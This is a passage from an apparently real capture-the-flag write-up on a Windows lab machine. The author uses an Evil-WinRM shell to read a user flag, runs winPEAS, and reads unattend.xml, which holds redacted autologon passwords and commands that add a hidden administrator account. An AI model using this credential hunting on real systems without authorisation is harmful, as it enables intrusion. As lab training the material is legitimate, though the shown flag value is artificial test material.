 -ar--- 3/31/2021 3:46 PM 34 user.txt

\[0;31m_Evil-WinRM_\[0m\[0;1;33m PS \[0mC:\Users\henry.vinson\_adm\Desktop&gt; type user.txt 0be8b33241a64934480a8ff868aca6ca

```text
I found the proof that I had made it inside, on the users Desktop

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `henry.vinson_adm`

none of the exe versions of winPEAS worked on this machine, so I had to run the .bat.  I was also denied running `systeminfo`

The .bat version seemed to be stuck on a loop, so I started poking around manually while I waited, in another shell

```xml
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\henry.vinson_adm\Desktop> type C:\Windows\Panther\unattend.xml 
<?xml version='1.0' encoding='utf-8'?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
   <settings pass="generalize" wasPassProcessed="true">
      <component name="Microsoft-Windows-PnpSysprep" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
         <PersistAllDeviceInstalls>true</PersistAllDeviceInstalls>
      </component>
   </settings>
   <settings pass="oobeSystem" wasPassProcessed="true">
      <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
         <OOBE>
            <SkipMachineOOBE>true</SkipMachineOOBE>
            <HideEULAPage>true</HideEULAPage>
            <SkipUserOOBE>true</SkipUserOOBE>
            <ProtectYourPC>1</ProtectYourPC>
         </OOBE>
         <TimeZone>GMT Standard Time</TimeZone>
         <AutoLogon>
            <Enabled>true</Enabled>
            <Username>Administrator</Username>
            <LogonCount>1</LogonCount>
            <Password>*SENSITIVE*DATA*DELETED*</Password>
            <Domain>apt</Domain>
         </AutoLogon>
         <UserAccounts>
            <AdministratorPassword>*SENSITIVE*DATA*DELETED*</AdministratorPassword>
         </UserAccounts>
         <FirstLogonCommands>
            <SynchronousCommand wcm:action="add">
               <CommandLine>net user dsc Password123! /add</CommandLine>
               <Order>1</Order>
            </SynchronousCommand>
            <SynchronousCommand wcm:action="add">
               <CommandLine>net localgroup administrators dsc /add</CommandLine>
               <Order>2</Order>
            </SynchronousCommand>
            <SynchronousCommand wcm:action="add">
               <CommandLine>winrm quickconfig -force</CommandLine>
               <Order>3</Order>
            </SynchronousCommand>
            <SynchronousCommand wcm:action="add">
```